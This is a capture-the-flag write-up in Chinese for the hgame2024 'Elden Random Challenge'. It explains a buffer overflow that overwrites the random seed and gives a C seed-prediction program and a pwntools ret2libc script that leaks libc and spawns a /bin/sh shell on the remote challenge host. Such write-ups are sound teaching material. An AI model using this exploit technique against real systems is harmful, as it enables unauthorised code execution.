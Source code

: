 ```yaml
---
title: hgame2024 week1 - Elden Random Challenge
date: 2024/2/6 17:21:00
tags:
    - buffer overflow
    - result predicting
excerpt: 通过缓冲区溢出控制随机数生成器，实现ret2libc攻击以获取系统权限。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

`buf`是10字节，但读入18字节，因此可以溢出到`seed`，以此控制random的结果，如改为0。
编写c程序，模拟99次应该输入的数据，接着打ret2libc即可

## EXPLOIT

```c
// randint.c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    srand(0);
    for (int i = 0; i < 99; i++) {
        int randint = rand() % 100 + 1;
        printf("%d\n", randint);
    }
    return 0;
}
```

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./random')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 31193)
        libc = ELF('./libc.so.6')
    elf = ELF('./random')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    popRdiAddr = 0x401423
    myreadAddr = elf.symbols['myread']

    probe = process('./randint')
    nums = []
    for i in range(99):
        nums.append(probe.recvline(False))
    probe.close()

    sh.send(b'RocketDev\0' + p64(0)) # write seed to 0
    for i in range(99):
        sh.recvuntil(b'ber:')
        sh.send(p64(int(nums[i])))
    sh.recvuntil(b'mind.\n')

    # payload 1, leak libc
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(myreadAddr))

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    shstrAddr = libcBase + next(libc.search(b'/bin/sh'))
    systemAddr = libcBase + libc.symbols['system']
    retAddr = 0x401286
    sleep(0.5)

    # payload 2, invoke system
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

    sh.interactive()
```

